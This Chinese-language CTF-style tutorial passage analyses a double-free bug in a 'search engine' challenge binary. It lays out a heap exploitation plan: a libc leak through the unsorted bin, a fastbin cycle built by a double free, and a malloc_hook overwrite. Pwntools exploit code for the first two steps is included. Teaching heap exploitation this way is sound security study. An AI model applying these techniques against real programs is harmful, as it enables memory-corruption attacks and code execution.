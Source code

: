 可以看出，在每次释放 i->sentence_ptr 之前，这个句子的内容就会全部被设置为 `\x00` ，由于单词结构体中存储的单词只是句子的一个指针，所以单词也会被置为 `\x00` 。该句子对应的那些单词仍然是存在于链表中的，并没有被删除，因此每次搜索单词的时候，仍然会判断。看起来由于句子内容被置为 `\x00` 可以防止通过 `*i->sentence_ptr` 验证。然而，由于 chunk 被释放后会被放到 bin 中，当 chunk 不是 fastbin 或者 chunk 被重新分配出去使用的时候，也就有可能会产生 double free 的情况。此外，当句子被 `memset` 的时候，单词虽然都变为了 `\x00` ，但是我们仍然可以通过两个 `\x00` 的比较来绕过 `memcmp` 的检测。

### 利用

#### 利用思路

基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址
- 利用 double free 构造 fastbin 循环链表
- 分配 chunk 到 malloc_hook 附近，修改malloc_hook 为 one_gadget

#### 泄漏 libc 地址

这里我们分配一个 small bin 大小的 chunk ，当它被释放后，就会放入到 unsorted bin 中。因而，只要 `unsorted bin` 的地址的起始字节不是 `\x00` 便可以通过验证。同时，我们可以构造 `\x00` 来进行比较，从而通过验证。具体如下

```python
def leak_libc():
    smallbin_sentence = 's' * 0x85 + ' m '
    index_sentence(smallbin_sentence)
    search_word('m')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    search_word('\x00')
    p.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
    unsortedbin_addr = u64(p.recv(8))
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    return unsortedbin_addr
```

#### 构造 fastbin 循环链表

由于我们最后希望在 malloc_hook 处分配 chunk，而一般分配 malloc_hook 附近的 chunk 一般大小都是0x7f。即，我们所需要设置的设置的 fast bin 的数据字节部分的大小为 0x60。这里我们按照如下方式构造

1. 分别索引句子a，索引句子b，索引句子c，则此时单词链表中索引的句子的相对顺序为c->b->a。假设句子 a 为'a' * 0x5d+' d '，句子 b 为 'b' * 0x5d+' d '，句子c类似。
2. 索引单词d，三个均删除，则此时 fastbin 中的链表情况为 a->b->c->NULL，这是因为首先释放的是句子c，最后释放的是句子 a 。这时，搜索单词时`*i->sentence_ptr` 对于a, b 来说都是可以绕过的。
3. 我们此时再次删除搜索单词 `\x00`。首先遍历的是 c，但是 c 的验证不通过；其次遍历的是b，验证通过，我们将其释放；其次遍历的是a，验证通过，但是我们不删除。则此时 fastbin 的情况为 b->a->b->a->...。即已经构成了double free b的情况。由于我们先前为了 leak libc 还建立一个句子，所以还有一个单词可以比较，这里我们也不删除。

具体代码如下

```python
    # 2. create cycle fastbin 0x70 size
    index_sentence('a' * 0x5d + ' d ')  #a
    index_sentence('b' * 0x5d + ' d ')  #b
    index_sentence('c' * 0x5d + ' d ')  #c

    # a->b->c->NULL
    search_word('d')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')

    # b->a->b->a->...
    search_word('\x00')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
```